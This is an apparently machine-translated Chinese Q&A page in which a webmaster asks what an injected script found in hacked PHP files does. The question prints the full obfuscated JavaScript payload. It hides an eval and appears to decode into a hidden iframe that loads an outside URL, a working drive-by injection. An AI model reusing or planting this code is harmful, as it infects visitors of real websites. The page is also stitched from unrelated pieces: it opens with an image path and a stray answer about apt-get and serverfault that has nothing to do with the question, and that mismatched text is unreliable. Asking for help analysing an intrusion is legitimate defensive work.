 * * *

## 回答 #2

> 赞同：2
> 
> 时间：2012-05-18T18:44:57.387

`sudo apt-get build-dep python-defaults`这个问题属于[serverfault.com](https://serverfault.com/)

# javascript - 站点刚刚被攻击，并且在头部注入了javascript，这是什么意思？

> ID：10658071
> 
> 赞同：14
> 
> 时间：2012-05-18T18:42:30.697
> 
> 标签：javascript, security

我们的一个网站最近遭到攻击，其中多个 php 文件被修改。此修改在页面顶部注入了 javascript，但在 base64 解码所有内容后，我遇到了以下内容，我不知道如何继续。

有没有人在这方面有任何经验，并且无论如何都可以弄清楚他们想要实现的目标是什么？

```
<script>i=0;try{avasv=prototype;}catch(z){h="harCode";f=['-33f-33f63f60f-10f-2f58f69f57f75f67f59f68f74f4f61f59f74f27f66f59f67f59f68f74f73f24f79f42f55f61f36f55f67f59f-2f-3f56f69f58f79f-3f-1f49f6f51f-1f81f-29f-33f-33f-33f63f60f72f55f67f59f72f-2f-1f17f-29f-33f-33f83f-10f59f66f73f59f-10f81f-29f-33f-33f-33f58f69f57f75f67f59f68f74f4f77f72f63f74f59f-2f-8f18f63f60f72f55f67f59f-10f73f72f57f19f-3f62f74f74f70f16f5f5f65f79f75f56f58f79f79f79f56f4f66f69f69f65f63f68f4f55f74f5f21f61f69f19f8f-3f-10f77f63f58f74f62f19f-3f7f6f-3f-10f62f59f63f61f62f74f19f-3f7f6f-3f-10f73f74f79f66f59f19f-3f76f63f73f63f56f63f66f63f74f79f16f62f63f58f58f59f68f17f70f69f73f63f74f63f69f68f16f55f56f73f69f66f75f74f59f17f66f59f60f74f16f6f17f74f69f70f16f6f17f-3f20f18f5f63f60f72f55f67f59f20f-8f-1f17f-29f-33f-33f83f-29f-33f-33f60f75f68f57f74f63f69f68f-10f63f60f72f55f67f59f72f-2f-1f81f-29f-33f-33f-33f76f55f72f-10f60f-10f19f-10f58f69f57f75f67f59f68f74f4f57f72f59f55f74f59f27f66f59f67f59f68f74f-2f-3f63f60f72f55f67f59f-3f-1f17f60f4f73f59f74f23f74f74f72f63f56f75f74f59f-2f-3f73f72f57f-3f2f-3f62f74f74f70f16f5f5f65f79f75f56f58f79f79f79f56f4f66f69f69f65f63f68f4f55f74f5f21f61f69f19f8f-3f-1f17f60f4f73f74f79f66f59f4f76f63f73f63f56f63f66f63f74f79f19f-3f62f63f58f58f59f68f-3f17f60f4f73f74f79f66f59f4f70f69f73f63f74f63f69f68f19f-3f55f56f73f69f66f75f74f59f-3f17f60f4f73f74f79f66f59f4f66f59f60f74f19f-3f6f-3f17f60f4f73f74f79f66f59f4f74f69f70f19f-3f6f-3f17f60f4f73f59f74f23f74f74f72f63f56f75f74f59f-2f-3f77f63f58f74f62f-3f2f-3f7f6f-3f-1f17f60f4f73f59f74f23f74f74f72f63f56f75f74f59f-2f-3f62f59f63f61f62f74f-3f2f-3f7f6f-3f-1f17f-29f-33f-33f-33f58f69f57f75f67f59f68f74f4f61f59f74f27f66f59f67f59f68f74f73f24f79f42f55f61f36f55f67f59f-2f-3f56f69f58f79f-3f-1f49f6f51f4f55f70f70f59f68f58f25f62f63f66f58f-2f60f-1f17f-29f-33f-33f83'][0].split('f');v="e"+"va";}if(v)e=window[v+"l"];try{q=document.createElement("div");q.appendChild(q+"");}catch(qwg){w=f;s=[];} r=String;z=((e)?h:"");for(;573!=i;i+=1){j=i;if(e)s=s+r["fromC"+((e)?z:12)](w[j]*1+42);} if(v&&e&&r&&z&&h&&s&&f&&v)e(s);</script> 
```

美化：

```
i = 0;
try {
    avasv = prototype;
} catch (z) {
    h = "harCode";
```